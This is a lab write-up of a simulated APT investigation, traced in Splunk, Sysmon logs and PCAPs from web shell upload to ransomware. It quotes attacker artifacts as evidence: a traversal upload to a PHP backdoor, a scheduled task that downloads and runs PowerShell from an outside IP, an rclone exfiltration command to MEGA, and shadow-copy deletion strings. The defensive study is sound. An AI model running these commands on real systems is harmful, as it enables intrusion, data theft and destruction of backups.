# Tracing a Web Shell to Ransomware in Appkademiya’s Certified Threat Hunter \(CTH\)

Made and wrote by Austin BC

The CTH exercise used answers rather than capture\-the\-flag tokens, so I refer to them as findings instead of claiming that I recovered flags\. I distinguish results from the live Splunk instance and forensic files from answers that the saved evidence does not independently verify\. I did not use Docker host administrator access or inspect image history to extract answers\.

Lab source: https://github\.com/Appkademiya/Certified\-Threat\-Hunter\-CTH

## Attack Techniques Covered

The examination investigated a simulated Advanced Persistent Threat \(APT\) intrusion using Splunk SPL, Sysmon telemetry, Apache access logs, PCAP inspection, and static binary analysis\. The evidence covered directory traversal targeting a PHP backdoor, web shell reconnaissance, Windows Scheduled Task persistence with a PowerShell download command, and rundll32\.exe access to LSASS memory\. WMI process lineage suggested remote execution, while Rclone command lines indicated attempted cloud exfiltration to MEGA\. Network artifacts exposed HTTP command\-and\-control \(C2\) and key\-exchange traffic plus DNS indicators\. Ransomware\-related process and file creation events showed multithreaded execution arguments and the \.phantom extension\. Recovery\-inhibition commands were found as strings, not observed executing; the comsvcs\.dll MiniDump technique was suggested by the exercise but not independently confirmed\.

## Getting into the lab and finding the evidence

Docker was already running when I started\. The instructions pointed me to Splunk at http://localhost:8000 and a forensic Ubuntu desktop at http://localhost:3000\. The lab contained Windows and Sysmon records, Apache access logs, two PCAPs, and a defanged ransomware sample\. I used Splunk to correlate events and the Ubuntu desktop to inspect files that were not indexed\.

My first ransomware search returned zero events because the time picker was still set to “Last 24 hours\.” Historical lab evidence did not fall within that window\. After switching to “All time” and rerunning the same search, six events appeared\. That ruled out a time\-range problem before I started changing field names\.

```
index=* ("enc.exe" OR "locker.exe" OR "phantom_enc.exe" OR "ransom.exe")
| table _time host source sourcetype Image NewProcessName CommandLine ParentImage ParentProcessName
| sort _time
```



*The initial Splunk query returned no events with the time picker set to the last 24 hours\.*



*With All time selected, six matching events appeared, including phantom\_enc\.exe under C:\\Users\\Public\.*

I kept the returned filenames and command lines as evidence, but didn’t treat the first search as proof of the whole attack chain\. I needed the web entry point and the later process events to connect it\.

## Initial access: traversal into a PHP backdoor

The earliest web shell sequence I recovered was in the Apache access records\. I searched for traversal markers rather than assuming the application parameter name\. A broad payload pattern was more reliable than searching only for “file\_path” or another option from the exam\.

```
index=* ("../" OR "%2e%2e" OR "%252e%252e" OR "etc/passwd" OR "win.ini")
| table _time host source sourcetype uri uri_path uri_query request url _raw
| sort _time
```

The search returned a suspicious request in web\_access\.log: POST /upload\.php?vuln\_param=\.\./\.\./var/www/html/backdoor\.php from 185\.10\.25\.99\. The HTTP status was 201 and the user agent was curl/7\.68\.0\. The targeted parameter was vuln\_param, and the PHP filename was backdoor\.php\. The server reported a created resource, but the status alone did not establish that PHP execution had succeeded\.



*Splunk showed the traversal\-bearing POST, vuln\_param, source IP, and HTTP 201 response\.*

Next I searched for backdoor\.php and sorted each match in ascending time\. That mattered because the exam asked which command appeared first, not which command looked most likely\.

```
index=* "backdoor.php"
| table _time uri uri_query request status _raw
| sort 0 _time
```

The access\-log sequence was the upload, then GET /backdoor\.php?cmd=whoami with status 200, followed by GET /backdoor\.php?cmd=systeminfo with status 200\. The first observed operating system command requested through the web shell was therefore whoami; systeminfo came next\. These logs show the requests, not the commands’ returned output\.



*The Apache records show upload, whoami, and systeminfo requests in that order\.*

This was a traversal and upload\-path weakness followed by requests to a web shell, not a SUID or sudo issue\. The same external IP also appeared in later network capture and scheduled\-task evidence, although the shared address alone does not establish that every event came from one actor\.

## Persistence through a Windows Scheduled Task

I then hunted for task creation in Sysmon Event ID 1\. Searching for schtasks, ONLOGON, ONSTART and TaskScheduler let me find the command without knowing the task name beforehand\.

```
index=* ("schtasks" OR "ONLOGON" OR "ONSTART" OR "TaskScheduler")
| table _time Image CommandLine ParentImage TaskName _raw
| sort 0 _time
```

One process\-creation record showed C:\\Windows\\System32\\schtasks\.exe launched by cmd\.exe\. It created a task called MicrosoftUpdate using /sc onlogon\. The task action was configured to run hidden PowerShell and download a script from http://185\.10\.25\.99/payload\.ps1 for execution\. The task name was designed to resemble ordinary update activity\.

```
schtasks.exe /create /tn "MicrosoftUpdate" /tr "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://185.10.25.99/payload.ps1')" /sc onlogon
```



*The Sysmon process event records schtasks\.exe, the MicrosoftUpdate task, and the PowerShell URL\.*

The raw event listed ParentProcessId 3310 for schtasks\.exe\. That was not the parent PID of WmiPrvSE\.exe asked about elsewhere, so I did not reuse it for that answer\. There was also a timestamp conflict: the raw UtcTime field read 2026\-10\-20 09:10:00, while Splunk displayed 2026\-08\-22 09:10:00\. That difference is not a normal timezone offset\. I cannot assign this persistence event a reliable absolute position in the attack timeline without reconciling the underlying timestamps\.

## Credential access: rundll32 opening LSASS

The exercise pointed to a MiniDump attempt involving comsvcs\.dll\. I did not save Splunk output confirming the DLL load or the rundll32 command line, so that exact technique remains an exam\-based identification rather than a directly observed invocation\. What I did capture was Sysmon Event ID 10 showing rundll32\.exe opening lsass\.exe\.

```
index=* EventID=10 TargetImage="*lsass.exe"
| table _time SourceImage SourceProcessId TargetImage TargetProcessId GrantedAccess
| sort 0 _time
```

The event returned SourceImage C:\\Windows\\System32\\rundll32\.exe, SourceProcessId 5892, TargetImage C:\\Windows\\System32\\lsass\.exe, TargetProcessId 500, and GrantedAccess 0x1FFFFF\. The LSASS PID was 500; 5892 belonged to the process opening the handle\. This is process\-access telemetry, not proof that a dump file was written\.



*Sysmon Event ID 10: rundll32\.exe PID 5892 accessed lsass\.exe PID 500 with mask 0x1FFFFF\.*

The record supports a credential\-access attempt targeting LSASS through legitimate Windows components\. It does not establish successful credential extraction\.

## WMI process lineage on the Domain Controller

The ransomware and exfiltration process records both showed WmiPrvSE\.exe as their parent, which is consistent with WMI\-mediated execution\. The exact WmiPrvSE\.exe parent PID was an exam question with options 500, 808, 2044, and 3310, but I did not capture a result for that specific search\. I cannot claim a verified PPID or independently prove the origin of the execution\.

```
index=* Image="*WmiPrvSE.exe"
| table _time Computer Image ProcessId ParentProcessId ParentImage CommandLine
| sort _time
```

That query was proposed to check the missing parentage\. No returned rows survive in the saved screenshots\. The supported finding is WMI\-related process lineage; the exact PPID remains unverified\.

## The Rclone transfer command

I searched command\-line events for rclone, mega, exfil, sync, and copy together, rather than guessing which transfer tool might have been used\.

```
index=* ("rclone" OR "mega" OR "exfil" OR "sync" OR "copy")
| table _time Image CommandLine ParentImage ParentCommandLine
| sort _time
```

One matching record appeared at Splunk\-displayed 2026\-08\-21 02:20:00: rclone\.exe copy C:\\Shares\\Finance mega:FinanceBackup \-\-quiet\. The executable path was C:\\Users\\Public\\rclone\.exe, and its parent was C:\\Windows\\System32\\wbem\\WmiPrvSE\.exe\. The apparent source was the Finance folder and the configured destination was mega:FinanceBackup\. The command records an attempted transfer; I did not capture statistics or other evidence proving the upload completed\.

```
rclone.exe copy C:\Shares\Finance mega:FinanceBackup --quiet
```



*The Rclone command lists the Finance source, MEGA destination, and WmiPrvSE\.exe parent\.*

I moved to the Ubuntu forensic desktop for packet evidence\. My first find command searched only /home, /opt, and /tmp and returned nothing\. That did not mean the captures were missing: the file manager showed the evidence under /config/Desktop/Evidence\. I located c2\_traffic\.pcap, network\_capture\.pcap, and phantom\_defanged\.bin there\.

```
find /home /opt /tmp -type f \( -iname '*.pcap' -o -iname '*.pcapng' \) 2>/dev/null
```



*The forensic desktop shows the Evidence directory and both PCAP files\.*

I tried tshark to extract HTTP requests, but it was not installed\. My first attempt to paste the shell loop caused a syntax error, and a later grep invocation had a stray tilde in its filename\. Those were command\-entry mistakes rather than findings about the packets\. Since the HTTP content was readable and the files were small, I switched to strings\.

```
for file in /config/Desktop/Evidence/*.pcap; do
  echo "=== $file ==="
  tshark -r "$file" -Y 'http.request' -T fields -e http.request.method -e http.host -e http.request.uri
done
```



*An initial terminal attempt failed because of shell syntax and unavailable tshark\.*



*A second terminal view documents additional failed tshark attempts before using strings\.*

```
strings /config/Desktop/Evidence/c2_traffic.pcap
strings /config/Desktop/Evidence/network_capture.pcap
```

The first capture contained GET /keyserver HTTP/1\.1 with Host: 185\.10\.25\.99\. That did not match any of the four exam choices, so I checked the second capture rather than forcing the result\. network\_capture\.pcap contained POST /api/key\_exchange HTTP/1\.1 to 185\.10\.25\.99, establishing /api/key\_exchange as the observed key\-exchange path\.



*The first capture exposed the GET /keyserver request to 185\.10\.25\.99\.*



*The second capture exposed POST /api/key\_exchange to the same host\.*

For the DNS question, strings did not expose a recognizable domain and Scapy was unavailable\. A regex over the raw PCAP bytes recovered an encoded label sequence printed as apimeganz, consistent with api\.mega\.nz\. That supported \.nz as the answer, but it was not a fully parsed DNS transaction or a reconstructed network flow\.

```
python3 -c "import importlib.util; print('scapy available:', importlib.util.find_spec('scapy') is not None)"
python3 -c 'import re; p=open("/config/Desktop/Evidence/network_capture.pcap","rb").read(); print("\n".join(sorted(set(x.decode("ascii","ignore") for x in re.findall(rb"(?:[\x03-\x3f][a-zA-Z0-9_-]{3,63})+(?:\x02nz|\x02ru|\x03com|\x03org)\x00",p)))))'
```



*The Scapy availability check returned False\.*



*Raw\-byte pattern matching returned apimeganz, consistent with api\.mega\.nz\.*

The problem was the missing forensic utilities, not evidence that the PCAP files were broken\. The fallback supported the answer, but protocol\-level verification would require a proper packet parser\.

## Ransomware activity and recovery\-inhibition strings

The earlier All time Splunk search showed C:\\Users\\Public\\phantom\_enc\.exe launching with \-\-threads 16 \-\-no\-shadows at displayed 2026\-08\-21 02:45:00\. WmiPrvSE\.exe was again the parent\. The \-\-no\-shadows argument appeared in the command line; confirming how the binary handled it would require code analysis or runtime observation\.

```
phantom_enc.exe --threads 16 --no-shadows
```

I checked Sysmon Event ID 11 for files created by that process, rather than inferring the output extension from its name\.

```
index=* EventID=11
| search Image="*phantom_enc.exe"
| table _time Image TargetFilename
| sort _time
| head 50
```

Sysmon returned five FileCreate events under C:\\Shares\\Finance between 02:45:01 and 02:45:05, for files ranging from 2026\_Budget\_v1\.xlsx\.phantom through 2026\_Budget\_v5\.xlsx\.phantom\. This established the \.phantom suffix and a burst of ransomware\-associated file creation\. Event ID 11 alone does not prove the original contents were cryptographically encrypted\.



*Five Sysmon FileCreate events show the \.phantom extension on Finance spreadsheets\.*

I then searched the defanged sample for recovery\-inhibition strings\. This was static examination of the supplied binary, not malware execution\. The search found a Volume Shadow Copy deletion command and a system\-state\-backup deletion command\.

```
strings /config/Desktop/Evidence/phantom_defanged.bin | grep -iE 'wbadmin|vssadmin|bcdedit|wmic|shadow|backup'
vssadmin.exe Delete Shadows /All /Quiet
wbadmin DELETE SYSTEMSTATEBACKUP
```



*The defanged binary contains shadow\-copy and system\-state\-backup deletion strings\.*

The command targeting system state backups was wbadmin DELETE SYSTEMSTATEBACKUP; the separate vssadmin command targeted shadow copies\. Both are consistent with recovery inhibition, but finding them as strings does not prove either command ran\.

## Where the evidence stops

The value of this exercise was following the upload request, web shell probes, task persistence, LSASS access, WMI\-related process launches, Rclone transfer command, HTTP key exchange, and ransomware file creation without assuming that every event proved a completed objective\. Switching to All time exposed the historical dataset; the incorrect initial find path and missing tshark required a different forensic approach\. The raw versus indexed timestamp conflict also means this is a sequence of related behaviors, with only some event ordering established, rather than a complete timeline built from one reliable clock\.


